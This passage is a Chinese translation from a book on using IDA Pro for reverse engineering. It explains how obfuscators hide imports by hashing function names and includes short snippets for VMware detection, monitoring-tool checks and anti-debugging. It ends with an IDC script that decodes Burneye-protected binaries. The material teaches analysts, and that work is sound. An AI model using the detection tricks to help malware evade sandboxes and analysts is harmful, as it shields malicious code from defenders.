此示例包含一个外循环，用于调用`LoadLibraryA`^([165]) ，以及一个内循环，用于调用`GetProcAddress` 。在每次成功调用`GetProcAddress`之后，新检索到的函数地址被存储到重建的导入表中 。

这些循环作为 UPX 解混淆存根的最后部分执行，因为每个函数都接受指向库名称或函数名称的字符串指针参数，并且相关的字符串被保存在压缩数据区域中，以避免被`strings`实用程序检测。因此，在所需的字符串被解压缩之前，UPX 中的库加载无法进行。

回到 tElock 的例子，出现了一个不同的问题。只有两个导入函数，都不是`LoadLibraryA`或`GetProcAddress`，tElock 工具如何执行 UPX 所执行的功能解析任务？所有 Windows 进程都依赖于`kernel32.dll`，这意味着它在所有进程中都存在于内存中。如果一个程序可以定位到`kernel32.dll`，那么可以遵循一个相对直接的过程来定位 DLL 中的任何函数，包括`LoadLibraryA`和`GetProcAddress`。正如之前所展示的，有了这两个函数，就可以加载进程所需的任何额外库，并定位那些库中的所有所需函数。在论文“理解 Windows Shellcode”中，Skape 讨论了执行这一任务的技术。虽然 tElock 没有使用 Skape 详细说明的精确技术，但有很多相似之处，最终效果是模糊了加载和链接过程的细节。如果不仔细追踪程序的指令，很容易忽略库的加载或函数地址的查找。以下是一个小代码片段，说明了 tElock 尝试定位`LoadLibraryA`地址的方式：

```
.shrink:0041D1E4                 cmp     dword ptr [eax], 64616F4Ch
.shrink:0041D1EA                 jnz     short loc_41D226
.shrink:0041D1EC                 cmp     dword ptr [eax+4], 7262694Ch
.shrink:0041D1F3                 jnz     short loc_41D226
.shrink:0041D1F5                 cmp     dword ptr [eax+8], 41797261h
.shrink:0041D1FC                 jnz     short loc_41D226
```

很明显，几个比较是连续进行的。可能不太清楚的是这些比较的目的。重新格式化每个比较中使用的操作数，可以稍微揭示代码，如下所示：

```
.shrink:0041D1E4                 cmp     dword ptr [eax], 'daoL'
.shrink:0041D1EA                 jnz     short loc_41D226
.shrink:0041D1EC                 cmp     dword ptr [eax+4], 'rbiL'
.shrink:0041D1F3                 jnz     short loc_41D226
.shrink:0041D1F5                 cmp     dword ptr [eax+8], 'Ayra'
.shrink:0041D1FC                 jnz     short loc_41D226
```

每个十六进制常量实际上是一系列四个 ASCII 字符，按照顺序（记住 x86 是一个小端处理器，我们需要按相反的顺序读取字符）拼写出`LoadLibraryA`。如果这三个比较都成功，那么 tElock 已经找到了`LoadLibraryA`的导出表条目，并且通过几个简短的操作，这个函数的地址将被获得并可用于加载额外的库。tElock 在函数查找方面的一个有趣特点是它对字符串分析有一定的抵抗力，因为直接嵌入程序指令中的 4 字节常量看起来不像更标准的 null 终止字符串，因此不会包含在 IDA 生成的字符串列表中。

在 UPX 和 tElock 的情况下，通过仔细分析程序代码手动重建程序导入表变得更容易，因为最终，它们都包含我们可以用来确定引用了哪些库和哪些函数的 ASCII 字符数据。Skape 的论文详细描述了一个函数解析过程，其中代码中根本不出现任何字符串。论文中讨论的基本思想是为每个需要解析的函数名称预先计算一个唯一的哈希值^([167])。为了解析每个函数，会在库的导出名称表中进行搜索。表中的每个名称都会进行哈希处理，得到的哈希值与预先计算的所需函数的哈希值进行比较。如果哈希值匹配，则找到了所需的函数，并且可以轻松地在库的导出地址表中找到其地址。为了静态分析以这种方式混淆的二进制文件，需要了解每个函数名称使用的哈希算法，并将该算法应用于程序正在搜索的库导出的所有名称。有了完整的哈希表，你将能够简单地查找程序中遇到的每个哈希值，以确定它引用的是哪个函数.^([168]) 为 kernel32.dll 生成的此类表的一部分可能看起来像这样：

```
 GetProcAddress : 8A0FB5E2
  GetProcessAffinityMask : B9756EFE
  GetProcessHandleCount : B50EB87C
  GetProcessHeap : C246DA44
  GetProcessHeaps : A18AAB23
  GetProcessId : BE05ED07
```

注意，哈希值是特定于特定二进制文件中使用的哈希函数的，并且可能因二进制文件而异。使用这个特定的表，如果在程序中遇到哈希值`8A0FB5E2` ，我们可以迅速确定程序正在尝试查找`GetProcAddress`函数的地址。

Skape 使用哈希值解析函数名称的方法最初是为 Windows 漏洞的利用有效载荷开发并记录的；然而，哈希值已经被用于混淆程序中。WinLicense 混淆工具就是利用这种哈希技术来伪装其行为的例子之一。

关于导入表的一个最后的说明是，有趣的是，IDA 有时能够提供一些线索，表明程序导入表可能有些不正常。混淆的 Windows 二进制文件通常有足够改变的导入表，以至于 IDA 会通知你这样的二进制文件似乎有些异常。图 21-3 显示了 IDA 在这种情况下显示的警告对话框。


图 21-3. 损坏的导入段警告对话框

此对话框提供了最早的迹象之一，表明二进制文件可能以某种方式被混淆，应作为警告，表明二进制文件可能难以分析。因此，在分析二进制文件时应小心行事。

## 对分析工具的针对性攻击

提及此类反逆向工程能力仅是因为它具有阻碍逆向工程努力的独特潜力。大多数逆向工程工具可以被视为高度专业的解析器，它们处理输入数据以提供某种总结信息或详细显示。作为软件，这些工具不会免受影响所有其他软件的相同类型漏洞的影响。具体来说，在处理用户提供的输入数据时，在某些情况下可能会导致可利用的条件。

除了我们之前讨论的技术之外，那些意图防止对其软件进行分析的程序员可能会选择一种更积极的反逆向工程形式。通过适当构建输入文件，可能创建一个既足够有效以正确执行又足够损坏以利用逆向工程工具漏洞的程序。虽然这种漏洞不常见，但已记录包括 IDA 中的漏洞.^([169]) 攻击者的目标是利用恶意软件可能最终被加载到 IDA 中的事实。至少，攻击者可能实现拒绝服务，导致 IDA 在创建数据库之前总是崩溃；或者，攻击者可能访问分析师的计算机及其相关网络。对这类攻击感到担忧的用户应考虑在沙盒环境中执行所有初始分析任务。例如，你可以在沙盒中运行 IDA 的副本以创建所有二进制文件的初始数据库。初始数据库（理论上不包含任何恶意功能）然后可以分发给其他分析师，他们无需接触原始二进制文件。

* * *

^([149]) Shaun Clowes 和 Neel Mehta 首次在 2003 年的 CanSecWest 上介绍了 Shiva。请参阅[`www.cansecwest.com/core03/shiva.ppt`](http://www.cansecwest.com/core03/shiva.ppt)。

^([150]) x86 的 `iret` 指令用于从中断处理例程返回。中断处理例程通常位于内核空间。

^([151]) 将**信号量**想象成一种必须在你手中才能进入房间执行某些动作的凭证。在你持有凭证期间，其他任何人不得进入房间。当你完成房间内的任务后，你可以离开并将凭证交给其他人，其他人随后可以进入房间并利用你已完成的工作（因为你已经不在房间内，所以你不会知道这一点！）信号量通常用于在程序中对代码或数据进行互斥锁的强制。

^([152]) 关于 Windows 结构化异常处理（SEH）的更多信息，请参阅 [`www.microsoft.com/msj/0197/exception/exception.aspx`](http://www.microsoft.com/msj/0197/exception/exception.aspx).

^([153]) Windows 将 FS 寄存器配置为指向当前线程环境块（TEB）的基址。TEB 中的第一个条目（偏移量为零）是一个指向异常处理函数链表的指针头，当在进程中引发异常时，会依次调用这些函数。

^([154]) 在 x86 中，调试寄存器 0 到 7（`Dr0`到`Dr7`）用于控制硬件辅助断点的使用。`Dr0`到`Dr3`用于指定断点地址，而`Dr6`和`Dr7`用于启用和禁用特定的硬件断点。

^([155]) 请参阅 [`upx.sourceforge.net/`](http://upx.sourceforge.net/).

^([156]) 请参阅 [`www.aspack.com/`](http://www.aspack.com/).

^([157]) 请参阅 [`www.softpedia.com/get/Programming/Packers-Crypters-Protectors/Telock.shtml`](http://www.softpedia.com/get/Programming/Packers-Crypters-Protectors/Telock.shtml).

^([158]) 请参阅 [`www.packetstormsecurity.org/groups/teso/indexdate.html`](http://www.packetstormsecurity.org/groups/teso/indexdate.html).

^([159]) 请参阅 [`www.cansecwest.com/core03/shiva.ppt`](http://www.cansecwest.com/core03/shiva.ppt)（工具：[`www.securiteam.com/tools/5XP041FA0U.html`](http://www.securiteam.com/tools/5XP041FA0U.html)）。

^([160]) 请参阅 [`www.oreans.com/winlicense.php`](http://www.oreans.com/winlicense.php).

^([161]) 请参阅 [`www.vmpsoft.com/`](http://www.vmpsoft.com/).

^([162]) 请参阅 [`www.symantec.com/connect/blogs/inside-jaws-trojanclampi`](http://www.symantec.com/connect/blogs/inside-jaws-trojanclampi).

^([163]) 请参阅 [`qunpack.ahteam.org/wp2/`](http://qunpack.ahteam.org/wp2/)（俄语）或 [`www.woodmann.com/collaborative/tools/index.php/Quick_Unpack`](http://www.woodmann.com/collaborative/tools/index.php/Quick_Unpack).

^([164]) 请参阅 [`www.vmware.com/`](http://www.vmware.com/).

^([165]) 许多接受字符串参数的 Windows 函数有两种版本：一种接受 ASCII 字符串，另一种接受 Unicode 字符串。这些函数的 ASCII 版本带有`A`后缀，而 Unicode 版本带有`W`后缀。

^([166]) 请参阅 [`www.hick.org/code/skape/papers/win32-shellcode.pdf`](http://www.hick.org/code/skape/papers/win32-shellcode.pdf)，特别是第三章，“Shellcode 基础”，以及 3.3 节，“解析符号地址”。

^([167]) **哈希函数**是一种数学过程，它从任意大小的输入（例如字符串）中推导出一个固定大小的结果（例如 4 字节）。

^([168]) Hex-Rays 在此处讨论了 IDA 的调试能力来计算这些哈希值：[`www.hexblog.com/?p=93`](http://www.hexblog.com/?p=93)。

^([169]) 请参阅 [`web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2005-0115`](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2005-0115)。更多详细信息可在 [`labs.idefense.com/intelligence/vulnerabilities/display.php?id=189`](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=189) 找到。

# 反动态分析技术

在过去几节中讨论的反静态分析技术对程序是否实际执行没有任何影响。事实上，虽然它们可能会使你难以仅使用静态分析技术理解程序的真实行为，但它们不能阻止程序执行，否则程序从一开始就变得无用，从而消除了分析程序的需要。

由于程序必须运行才能执行任何工作，动态分析旨在观察程序在运行时的行为（而不是在程序不运行时使用静态分析观察程序），本节简要总结了一些更常见的反动态分析技术。在大多数情况下，这些技术对静态分析工具的影响很小；然而，在存在重叠的地方，我们将指出这一点。我们将在第二十四章（“第二十四章。IDA 调试器”）开始讨论许多这些技术对 IDA 集成调试器的影响。

## 检测虚拟化

配置沙盒环境时最常见的选择之一是使用虚拟化软件，如 VMware，为恶意软件（或者，就其本身而言，任何其他感兴趣的软件）提供一个执行环境。这种环境的主要优势是它们通常提供检查点和回滚功能，这有助于快速将沙盒恢复到已知的干净状态。将这种环境作为沙盒基础的主要缺点是，对于程序来说，检测它是否在虚拟化环境中运行相当容易（特别是在 32 位 x86 平台上）。在假设虚拟化等同于观察的情况下，许多希望保持未被发现状态的程序一旦确定它们在虚拟机中运行，就会简单地选择关闭。

以下列表描述了一些在虚拟化环境中运行的程序所使用的技巧，这些技巧用于确定它们是在虚拟机中运行，而不是在原生硬件上。

**检测特定于虚拟化的软件**

用户经常在虚拟机内部安装辅助应用程序，以方便虚拟机与其宿主操作系统之间的通信，或者简单地提高虚拟机内的性能。VMware Tools 集合就是此类软件的一个例子。此类软件的存在很容易被虚拟机内部运行的程序检测到。例如，当 VMware Tools 安装到 Microsoft Windows 虚拟机中时，它会创建任何程序都可以读取的 Windows 注册表条目。在虚拟环境中运行恶意软件通常不需要 VMware Tools，并且不应安装以消除这种容易检测到的虚拟机痕迹。

**检测虚拟化特定的硬件**

虚拟机利用虚拟硬件抽象层来提供虚拟机与宿主机原生硬件之间的接口。虚拟硬件的特性通常很容易被虚拟机内部运行的软件检测到。例如，VMware 为其虚拟化网络适配器分配了自己的组织唯一标识符（OUI）^([170）以供使用。观察到 VMware 特定的 OUI 是程序在虚拟机内部运行的良好迹象。请注意，通常可以通过在宿主机上使用配置选项来修改分配给虚拟网络适配器的 MAC 地址。

**检测虚拟机特定的行为**

一些虚拟化平台包含后门式通信通道，以方便虚拟机与其宿主软件之间的通信。例如，以下五条线可以用来确定你是否在 VMware 虚拟机内部运行:^([171）

```
mov  eax, 0x564D5868    ; 'VMXh'
  mov  ecx, 10
  xor  ebx, ebx
  mov  dx,  0x5658        ; 'VX'
 in   eax, dx
```

如果你在虚拟机内部，该序列将导致 EBX 寄存器包含值`0x564D5868`。如果你不在虚拟机内部，代码将根据所使用的宿主机操作系统导致异常或 EBX 没有变化。这个指令序列利用了 x86 `in` 指令  通常不在用户空间程序中使用或允许的事实；然而，在 VMware 中，这个指令序列可以用来测试 VMware 客户操作系统与其宿主机操作系统通信所使用的通道是否存在。这个通道由 VMware Tools 使用，例如，以促进主机操作系统和客户操作系统之间数据（如剪贴板内容）的交换。

**检测处理器特定的行为变化**

完美虚拟化是一个难以实现的目标。理想情况下，程序不应能够检测到虚拟化环境与原生硬件之间的任何差异。然而，这种情况很少发生。Joanna Rutkowska 在观察到 x86 `sidt`指令在原生硬件上的操作与在虚拟机环境中执行相同指令之间的行为差异后，开发了她的 redpill^([172]) VMware 检测技术。

虽然这不是关于该主题的第一篇论文，但 Tom Liston 和 Ed Skoudis^([173])的“On the Cutting Edge: Thwarting Virtual Machine Detection”提供了关于虚拟机检测技术的良好概述。

## 检测仪器

在创建您的沙盒环境之后，在执行您想要观察的任何程序之前，您需要确保已安装仪器，以便正确收集和记录您正在分析程序的行为信息。存在各种工具用于执行此类监控任务。两个广泛使用的例子包括来自微软 Sysinternals 组的 Process Monitor^([174))和 Wireshark.^([176)) Process Monitor 是一个能够监控与任何运行中的 Windows 进程相关的某些活动的实用程序，包括对 Windows 注册表和文件系统活动的访问。Wireshark 是一个网络数据包捕获和分析工具，常用于分析恶意软件生成的网络流量。

拥有足够偏执程度的恶意软件作者可能会编写软件来搜索此类监控程序的运行实例。技术范围从扫描已知与此类监控软件相关的进程名称的活跃进程列表，到扫描所有活跃 Windows 应用程序的标题栏文本以搜索已知字符串。可以进行更深入的搜索，一些软件甚至搜索与某些仪器软件中使用的 Windows GUI 组件相关的特定特征。例如，WinLicense 混淆/保护程序使用以下函数调用来尝试确定 Filemon（Process Monitor 的前身）实用程序是否正在执行：

```
if (FindWindow("FilemonClass", NULL)) {
   //exit because Filemon is running
}
```

在这种情况下，`FindWindow`函数正在根据窗口的注册类名（`"FilemonClass"`）而不是窗口的标题来搜索顶级应用程序窗口。如果找到请求的类窗口，则假定 Filemon 正在执行，程序终止。

## 检测调试器

超越对程序简单观察的使用，调试器的使用允许分析师完全控制需要分析的程序的执行。使用调试器对混淆程序的一个常见用途是运行混淆程序足够长的时间以完成任何解压缩或解密任务，然后利用调试器的内存访问功能从内存中提取去混淆的过程图像。在大多数情况下，可以使用标准的静态分析工具和技术来完成提取的过程图像的分析。

混淆工具的作者非常清楚这种由调试器辅助的反混淆技术，因此他们已经采取了措施来尝试阻止调试器执行他们的混淆程序。检测到调试器存在的程序通常会选择终止，而不是进行任何可能使分析师更容易确定程序行为的操作。

检测调试器存在的技术范围从通过已知的 API 函数（如 Windows 的`IsDebuggerPresent`函数）对操作系统进行简单查询，到对内存或处理器因使用调试器而产生的痕迹进行低级检查。后者的一个例子包括检测处理器跟踪（单步）标志是否被设置。在某些情况下，也可以检测特定的调试器。例如，SoftIce，一个 Windows 内核调试器，可以通过检测用于与调试器通信的`"\\.\NTICE"`设备来识别。

只要你知道要寻找什么，尝试检测调试器并没有什么特别棘手的地方，并且在静态分析过程中（除非同时使用反静态分析技术）很容易观察到这些尝试。有关调试器检测的更多信息，请参阅 Nicolas Falliere 的文章“Windows Anti-Debug Reference”，^([177])，该文章提供了 Windows 反调试技术的全面概述.^([178]) 此外，OpenRCE 维护了一个反逆向工程技术数据库，^([179]) 其中包含了许多针对调试器的特定技术。

## 防止调试

如果调试器设法保持不可检测，仍然有几种技术可以用来阻止其使用。这些额外技术试图通过引入虚假断点、清除硬件断点、阻碍反汇编以使选择适当的断点地址变得困难，或者阻止调试器最初就附加到进程来迷惑调试器。Nicolas Falliere 文章中讨论的许多技术都是针对防止调试器正常运行的。

故意生成异常是程序试图阻碍调试的一种方法。在大多数情况下，附加的调试器会捕获异常，调试器的用户将面临分析异常发生的原因以及是否将异常传递给正在调试的程序的任务。在软件断点的情况下，例如 x86 的`int 3`，可能很难区分由底层程序生成的软件中断和由实际的调试器断点引起的软件中断。这种混淆正是混淆程序创建者所期望的效果。在这种情况下，通常可以通过仔细分析反汇编列表来理解真正的程序流程，尽管静态分析所需的努力有所增加。

以某种方式编码程序的部分具有双重效果，一方面阻碍了静态分析，因为无法进行反汇编，另一方面阻碍了调试，因为设置断点困难。即使知道每条指令的开始，也必须在指令实际解码后才能放置软件断点，因为通过插入软件断点来更改指令很可能会导致混淆代码的解密失败，并在执行达到预期的断点时导致程序崩溃。

或者，一些去混淆例程会在进程的字节范围内计算校验和值。如果在计算校验和的范围内设置了软件断点，则生成的校验和将是不正确的，程序很可能会终止。

Linux 的 Shiva ELF 混淆工具使用了一种称为*互斥 ptrace*的技术来防止在分析 Shiva 的行为时使用调试器。

进程跟踪

*ptrace*，或进程跟踪，API 在许多 Unix 系统上可用，并提供了一种机制，允许一个进程监控和控制另一个进程的执行。GNU 调试器（gdb）是使用 ptrace API 的更知名的应用程序之一。使用 ptrace API，ptrace 父进程可以附加并控制 ptrace 子进程的执行。为了开始控制进程，父进程必须首先*附加*到它想要控制的子进程。一旦附加，子进程在任何时候收到信号时都会停止，并且父进程通过 POSIX `wait`函数通知这一事实，此时父进程可以选择在指示子进程继续执行之前更改或检查子进程的状态。一旦父进程附加到子进程，除非跟踪父进程选择从子进程断开连接，否则没有其他进程可以附加到同一个子进程。

Shiva 利用了这样一个事实：在任何给定时间，一个进程可能只被另一个进程 ptraced。在执行早期，Shiva 进程会进行 fork 操作以创建自身的副本。原始的 Shiva 进程立即对新 fork 出的子进程执行 ptrace attach 操作。新 fork 出的子进程反过来立即连接到其父进程。如果任一 attach 操作失败，Shiva 将假定另一个调试器正在用于监控 Shiva 进程而终止。如果两个操作都成功，则没有其他调试器可以用来附加到正在运行的 Shiva 对，Shiva 可以继续运行而无需担心被观察。在以这种方式操作时，任一 Shiva 进程都可能改变另一个的状态，使得使用静态分析技术难以确定通过 Shiva 二进制的确切控制流路径。

* * *

^([170]) 一个*OUI*组成了网络适配器出厂分配的 MAC 地址的前三个字节。

^([171]) 请参阅 Elias Bachaalany 的[`www.codeproject.com/KB/system/VmDetect.aspx`](http://www.codeproject.com/KB/system/VmDetect.aspx)。

^([172]) 请参阅[`www.invisiblethings.org/papers/redpill.html`](http://www.invisiblethings.org/papers/redpill.html)。

^([173]) 请参阅[`handlers.sans.org/tliston/ThwartingVMDetection_Liston_Skoudis.pdf`](http://handlers.sans.org/tliston/ThwartingVMDetection_Liston_Skoudis.pdf)。

^([174]) 请参阅[`technet.microsoft.com/en-us/sysinternals/bb896645.aspx`](http://technet.microsoft.com/en-us/sysinternals/bb896645.aspx)。

^([175]) 请参阅[`technet.microsoft.com/en-us/sysinternals/default.aspx`](http://technet.microsoft.com/en-us/sysinternals/default.aspx)。

^([176]) 请参阅[`www.wireshark.org/`](http://www.wireshark.org/)。

^([177]) 请参阅[`www.symantec.com/connect/articles/windows-anti-debug-reference/`](http://www.symantec.com/connect/articles/windows-anti-debug-reference/)。

^([178]) 请参阅 Peter Ferrie 的[`pferrie.tripod.com/papers/unpackers.pdf/`](http://pferrie.tripod.com/papers/unpackers.pdf/)。

^([179]) 请参阅[`www.openrce.org/reference_library/anti_reversing/`](http://www.openrce.org/reference_library/anti_reversing/)。

# 使用 IDA 进行二进制静态去混淆

到目前为止，您可能想知道，鉴于所有可用的反逆向工程技术，如何分析程序员有意保密的软件。鉴于这些技术针对静态分析工具和动态分析工具，揭示程序隐藏行为的最佳方法是什么？不幸的是，没有一种解决方案能够同样适合所有情况。在大多数情况下，解决方案取决于您的技能集和可用的工具。如果您选择的工具是调试器，那么您需要开发绕过调试器检测和预防保护的策略。如果您首选的工具是反汇编器，那么您需要开发获取准确反汇编的策略，以及在遇到自修改代码的情况下，模拟该代码的行为，以便正确更新您的反汇编列表。

在本节中，我们将讨论两种在静态分析环境中（即在执行代码之前）处理自修改代码的技术。在您不愿意（由于恶意代码）或无法（由于缺乏硬件或适当的沙盒环境）使用调试器控制程序进行分析的情况下，静态分析可能是您的唯一选择。

## 以脚本为导向的解混淆

由于 IDA 可以用于反汇编为多种不同 CPU 类型开发的二进制文件，因此分析一个与您运行 IDA 的平台完全不同的平台上的二进制文件并不罕见。例如，您可能被要求分析一个 Linux x86 二进制文件，尽管您碰巧运行的是 IDA 的 Windows 版本，或者您可能被要求分析一个 MIPS 或 ARM 二进制文件，尽管 IDA 仅在 x86 平台上运行。在这种情况下，您可能无法访问适合在您提供的二进制文件上执行动态分析的调试器等动态分析工具。当这样的二进制文件被通过编码程序的部分来混淆时，您可能别无选择，只能创建一个 IDA 脚本，该脚本将模拟程序的解混淆阶段，以便正确解码程序并反汇编解码后的指令和数据。

这可能看起来是一项艰巨的任务。然而，在许多情况下，混淆程序的解码阶段仅使用处理器指令集的一小部分，因此熟悉必要的操作可能不需要理解目标 CPU 的整个指令集。

第十五章 提出了一种开发脚本算法，该脚本模拟程序部分的行为。在下面的示例中，我们将利用这些步骤开发一个简单的 IDC 脚本来解码使用 Burneye ELF 加密工具加密的程序。在我们的示例程序中，执行从 示例 21-2 中的指令开始。

示例 21-2. Burneye 启动序列和混淆代码

```
LOAD:05371035 start           proc near
  LOAD:05371035
 LOAD:05371035                 push    off_5371008
 LOAD:0537103B                 pushf
 LOAD:0537103C                 pusha
 LOAD:0537103D                 mov     ecx, dword_5371000
  LOAD:05371043                 jmp     loc_5371082
  ...
  LOAD:05371082 loc_5371082:                       ; CODE XREF: start+E↑j
 LOAD:05371082                 call    sub_5371048
  LOAD:05371087                 sal     byte ptr [ebx-2Bh], 1
  LOAD:0537108A                 pushf
  LOAD:0537108B                 xchg    al, [edx-11h]
  LOAD:0537108E                 pop     ss
  LOAD:0537108F                 xchg    eax, esp
  LOAD:05371090                 cwde
  LOAD:05371091                 aad     8Eh
  LOAD:05371093                 push    ecx
 LOAD:05371094                 out     dx, eax
  LOAD:05371095                 add     [edx-57E411A0h], bh
  LOAD:0537109B                 push    ss
  LOAD:0537109C                 rcr     dword ptr [esi+0Ch], cl
    LOAD:0537109F                 push    cs
  LOAD:053710A0                 sub     al, 70h
  LOAD:053710A2                 cmp     ch, [eax+6Eh]
  LOAD:053710A5                 cmp     dword ptr ds:0CBD35372h, 9C38A8BCh
  LOAD:053710AF                 and     al, 0F4h
 LOAD:053710B1                 db      67h
```

程序首先将内存位置 `05371008h` 的内容推入栈 ，然后推入 CPU 标志  和所有 CPU 寄存器 。这些指令的目的并不立即清楚，所以我们只是将这些信息存档以备后用。接下来，ECX 寄存器被加载了内存位置 `5371000h` 的内容 。根据第十五章中提出的算法 Chapter 15，我们需要在此处声明一个名为 `ecx` 的变量，并使用 IDC 的 `Dword` 函数从内存中初始化它，如下所示：

```
auto ecx;
ecx = Dword(0x5371000);    //from instruction 0537103D
```

在执行绝对跳转后，程序调用函数 `sub_5371048` ，它具有将地址 `05371087h`（返回地址）推入栈中的副作用。请注意，跟随 `call` 指令之后的反汇编指令开始变得越来越没有意义。`out` 指令  通常不会在用户空间代码中遇到，而 IDA 无法反汇编地址 `053710B1h`  的指令。这些都是表明这个二进制文件（以及函数窗口只列出两个函数的事实）有些不对劲的迹象。

在这一点上，分析需要继续使用函数 `sub_5371048`，该函数在示例 21-3 中展示。

示例 21-3. 主 Burneye 解码函数

```
LOAD:05371048 sub_5371048     proc near   ; CODE XREF: start:loc_5371082↓p
 LOAD:05371048                 pop     esi
 LOAD:05371049                 mov     edi, esi
 LOAD:0537104B                 mov     ebx, dword_5371004
  LOAD:05371051                 or      ebx, ebx
 LOAD:05371053                 jz      loc_537107F
 LOAD:05371059                 xor     edx, edx
 LOAD:0537105B loc_537105B:                ; CODE XREF: sub_5371048+35↓j
  LOAD:0537105B                 mov     eax, 8
 LOAD:05371060 loc_5371060:                ; CODE XREF: sub_5371048+2B↓j
  LOAD:05371060                 shrd    edx, ebx, 1
  LOAD:05371064                 shr     ebx, 1
  LOAD:05371066                 jnb     loc_5371072
  LOAD:0537106C                 xor     ebx, 0C0000057h
  LOAD:05371072 loc_5371072:                ; CODE XREF: sub_5371048+1E↑j
  LOAD:05371072                 dec     eax
  LOAD:05371073                 jnz     short loc_5371060
  LOAD:05371075                 shr     edx, 18h
  LOAD:05371078                 lodsb
    LOAD:05371079                 xor     al, dl
  LOAD:0537107B                 stosb
  LOAD:0537107C                 dec     ecx
  LOAD:0537107D                 jnz     short loc_537105B
  LOAD:0537107F loc_537107F:                ; CODE XREF: sub_5371048+B↑j
  LOAD:0537107F                 popa
  LOAD:05371080                 popf
  LOAD:05371081                 retn
```

仔细检查发现，这不是一个典型的函数，因为它一开始就立即将返回地址从栈中弹出至 ESI 寄存器 。回忆起保存的返回地址是 `05371087h`，并考虑到 EDI 、EBX  和 EDX  的初始化，我们的脚本扩展到以下内容：

```
auto ecx, esi, edi, ebx, edx;
ecx = Dword(0x5371000);   //from instruction 0537103D
esi = 0x05371087;         //from instruction 05371048
edi = esi;                //from instruction 05371049
ebx = Dword(0x5371004);   //from instruction 0537104B
edx = 0;                  //from instruction 05371059
```

在这些初始化之后，函数在进入外循环  和内循环  之前对 EBX 寄存器中的值进行测试 。函数的其余逻辑在以下完成的脚本中体现。在脚本中，注释用于将脚本操作与前面的反汇编列表中的对应操作联系起来。

```
auto ecx, esi, edi, ebx, edx, eax, cf;
  ecx = Dword(0x5371000);   //from instruction 0537103D
  esi = 0x05371087;         //from instruction 05371048
  edi = esi;                //from instruction 05371049
  ebx = Dword(0x5371004);   //from instruction 0537104B
  if (ebx != 0) {           //from instructions 05371051 and 05371053
     edx = 0;               //from instruction 05371059
     do {
        eax = 8;            //from instruction 0537105B
        do {
           //IDC does not offer an equivalent of the x86 shrd instruction so we
           //need to derive the behavior using several operations
           edx = (edx
 >> 1) & 0x7FFFFFFF;   //perform unsigned shift right one bit
           cf = ebx & 1;                    //remember the low bit of ebx
           if (cf == 1) {                   //cf represents the x86 carry flag
              edx = edx | 0x80000000;       //shift in the low bit of ebx if it is 1
           }
           ebx = (ebx >> 1) & 0x7FFFFFFF;   //perform unsigned shift right one bit
           if (cf == 1) {                   //from instruction 05371066
              ebx = ebx ^ 0xC0000057;       //from instruction 0537106C
           }
           eax--;                  //from instruction 05371072
        } while (eax != 0);        //from instruction 05371073
       edx = (edx >> 24) & 0xFF;  //perform unsigned shift right 24 bits
       eax = Byte(esi++);         //from instruction 05371078
        eax = eax ^ edx;           //from instruction 05371079
       PatchByte(edi++, eax);     //from instruction 0537107B
        ecx--;                     //from instruction 0537107C
     } while (ecx != 0);           //from instruction 0537107D
  }
```

关于这个例子，有两个小问题需要提出。首先，IDC 中的右移运算符（`>>`）执行有符号移位（意味着符号位被复制到最高有效位），而 x86 的`shr`和`shrd`指令执行无符号移位。为了在 IDC 中模拟无符号右移，我们必须清除从左边移入的所有位，就像在  和  中所做的那样。第二个问题涉及选择合适的数据大小和变量，以正确实现 x86 的`lodsb`（加载字符串字节）和`stosb`（存储字符串字节）指令。这些指令写入（`lodsb`）和读取（`stosb`）EAX 寄存器的低 8 位，^([180])而高 24 位保持不变。在 IDC 中，除了使用各种位操作来屏蔽和重新组合变量的部分外，没有其他方法可以将变量分割成位大小的部分。具体来说，对于`lodsb`指令，更精确的模拟应该如下所示：

```
eax = (eax & 0xFFFFFF00) | (Byte(esi++) & 0xFF);
```

这个例子首先清除了 EAX 变量的低 8 位，然后使用`OR`操作合并新的低 8 位值。在 Burn-eye 解码示例中，我们注意到在每个外循环开始时，整个 EAX 寄存器被设置为 8，这相当于清除了 EAX 的高 24 位。因此，我们选择简化`lodsb`的实现，忽略对 EAX 高 24 位的影响！[](httpatomoreillycomsourcenostarchimages854093.png)。对于`stosb` 的实现，无需考虑，因为`PatchByte`函数只读取输入值（在这种情况下为 EAX）的低 8 位。

在执行 Burneye 解码 IDC 脚本之后，我们的数据库将反映所有在 Linux 系统上执行混淆程序之前通常无法观察到的变化。如果去混淆过程执行得当，我们很可能在 IDA 的字符串窗口中看到更多的可读字符串。为了观察这一事实，你可能需要通过关闭并重新打开窗口或在窗口内右键单击，选择设置，然后点击确定来刷新字符串窗口内容。任何一种操作都会导致 IDA 重新扫描数据库以查找字符串内容。

剩余的任务包括确定解码函数将返回的位置，考虑到它在函数的第一个指令中弹出返回地址，以及诱导 IDA 正确显示解码的字节值作为指令或数据。Burneye 解码函数以以下三条指令结束：

```
LOAD:0537107F                 popa
LOAD:05371080                 popf
LOAD:05371081                 retn
```

记住，函数开始时通过弹出其自己的返回地址，这意味着剩余的栈值是由调用者设置的。这里使用的`popa`和`popf`指令是 Burneye 启动例程开始时使用的`pusha`和`pushf`指令的对应指令，如下所示：

```
LOAD:05371035 start           proc near
  LOAD:05371035
 LOAD:05371035                 push    off_5371008
  LOAD:0537103B                 pushf
  LOAD:0537103C                 pusha
```

最终结果是，栈上唯一保留的值是在`start`的第一行推入的那个值 ![http://atomoreilly.com/source/nostarch/images/854061.png]。Burneye 解码例程返回的位置就是这里，进一步分析 Burneye 受保护的二进制文件也需要从这里继续。

上述示例可能让人觉得编写脚本以解码或解包混淆的二进制文件相对容易。在 Burneye 的情况下，这是正确的，因为它没有使用非常复杂的初始混淆算法。使用 IDC 实现更复杂工具（如 ASPack 和 tElock）的去混淆存根需要更多的努力。

基于脚本去混淆的优点包括分析的二进制文件无需执行，并且可以在不完整理解用于去混淆二进制文件的精确算法的情况下创建一个功能脚本。这种说法可能看起来有些反直觉，因为似乎在用脚本模拟算法之前，你需要对去混淆过程有一个完整理解。然而，使用这里和第十五章（ch15.html "第十五章。IDA 脚本"）中描述的开发过程，你真正需要的是对去混淆过程中涉及的每个 CPU 指令的完整理解。通过忠实地使用 IDC 实现每个 CPU 动作，并按照反汇编列表正确排序每个动作，你将得到一个模拟程序动作的脚本，即使你并不完全理解这些动作整体实现的高级算法。

